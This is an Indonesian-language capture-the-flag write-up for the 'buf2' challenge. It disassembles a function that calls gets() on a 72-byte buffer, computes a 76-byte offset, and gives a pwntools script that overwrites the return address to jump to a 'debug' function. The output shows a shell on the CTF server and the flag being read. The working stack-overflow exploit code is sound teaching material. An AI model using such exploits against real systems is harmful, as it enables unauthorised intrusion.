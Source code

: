 Fungsi ```hah```:
```bash
gdb-peda$ pdisas hah
Dump of assembler code for function hah:
   0x08048545 <+0>:	push   ebp
   0x08048546 <+1>:	mov    ebp,esp
   0x08048548 <+3>:	sub    esp,0x48
   0x0804854b <+6>:	sub    esp,0xc
   0x0804854e <+9>:	lea    eax,[ebp-0x48]
   0x08048551 <+12>:	push   eax
   0x08048552 <+13>:	call   0x8048390 <gets@plt>
   0x08048557 <+18>:	add    esp,0x10
   0x0804855a <+21>:	nop
   0x0804855b <+22>:	leave  
   0x0804855c <+23>:	ret    
End of assembler dump.
```

Variable ```gets``` Hanya diberi size sebesar 0x48 atau 72 dalam desimal. Sehingga jarak antara offset sampai return address adalah ```72 + 4 = 76```. 4 disitu adalah jumlah 1 register 32 bit.
Oke, karena kita sudah dapat offset nya sekarang cari address tujuan kita yaitu fungsi ```debug```.
Untuk mencari address ```debug```, kita bisa gunakan objdump.

Command : ```objdump -D buf2 | grep debug```
```
$ objdump -D buf2 | grep debug
0804851c <debug>:
```
Address debug : ```0x0804851c``` tapi harus dijadiin little endian dulu. Jadi : ```\x1c\x85\x04\x08``` atau bisa pake fungsi yang ada di pwntools.
Mantap, langsung aja buat solver nya. (Pake pwntools biar rapi wkwk)

```solver.py```
```python
from pwn import *

#r = process("./buf2")
r = remote("asgama.web.id", 40202)
offset = 76
debug = p32(0x0804851c)
payload = "A"*offset + debug

r.send(payload)
r.interactive()
```
Result :
```
$ python solver.py 
[+] Opening connection to asgama.web.id on port 40202: Done
[*] Switching to interactive mode
$ 
$ ls
buf2
flag
$ cat flag
GamaCTF{C0ntR0l_Fl0w_H1J4ckiNg}
$
[*] Closed connection to asgama.web.id port 40202
```
